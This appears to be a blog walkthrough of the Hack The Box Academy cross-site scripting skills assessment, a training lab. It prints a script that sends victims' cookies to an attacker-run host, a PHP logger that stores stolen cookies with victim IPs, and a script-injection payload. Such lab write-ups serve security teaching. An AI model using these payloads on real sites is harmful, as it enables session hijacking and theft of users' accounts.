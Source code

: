 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Cross Site Scripting Skills Assessment"
date:   2024-09-29 18:45
image:  /images/htb/cross-site-scripting/cross-site-scripting-logo.png
tags:   [xss]
categories: [htbacademy]
---
```


><b>Overview:</b>
<br/><br/>
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).<br/><br/>
Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:<br/><br/>
Apply the skills you learned in this module to achieve the following:<br/><br/>
 1 Identify a user-input field that is vulnerable to an XSS vulnerability.<br/>
 2 Find a working XSS payload that executes JavaScript code on the target's browser.<br/>
 3 Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag
<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/103/section/1011">Cross-Site Scripting (XSS)</a>
<br/>

#### Installing XSStrike
<a href="https://github.com/s0md3v/XSStrike.git">Clone the XSStrike Repository from GitHub</a>
```
git clone https://github.com/s0md3v/XSStrike.git
```
```
cd XSStrike
pip install -r requirements.txt
```
```
python xsstrike.py -u "http://{TARGET}?id=1"
```


## Q1:  What is the value of the 'flag' cookie?

In this guide, we'll walk through how to extract the 'flag' cookie during the XSS skills assessment using the Hack The Box provided VM. Let's dive in!

#### 1. Set Up the Environment
Start by creating a temporary directory for our script and files. Run the following command to create the directory:
```
mkdir /tmp/tempserver
```
#### 2. Create the JavaScript to Capture the Cookie
Next, we'll write a script (script.js) that will extract the session cookie and send it to a web server we’ll set up shortly. This script will be injected into the vulnerable input fields to capture the cookie.
```
document.location='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
new Image().src='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
```
#### 3. Set Up the PHP Server
Now, let's create a PHP file that will handle the incoming requests. This php script will read the c query parameter, which will contain the cookie, and store it in a file called cookies.txt. Here’s the php script:
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Use the below command to start your php server:
```
sudo php -S 0.0.0.0:{PORT}
```
You can use any available port. In my case, port 80 was already in use on the Hack The Box Virtual Machine, so I chose an alternate port.
#### 4. Inject the Payload
The next step is to craft a payload to inject into the form. We'll use the following payload for both the comment and website input fields:
```
"><script src=http://{HTB_VM_IPADDRESS}:{PORT}/script.js></script>
```
Replace {HTB_VM_IPADDRESS}:{PORT} with your VM's IP and Port you used when  address.
#### Capture the Flag
Submit the form with the injected payload. Afterward, check the cookies.txt file on your server to retrieve the session cookie. and flag.
<hr/>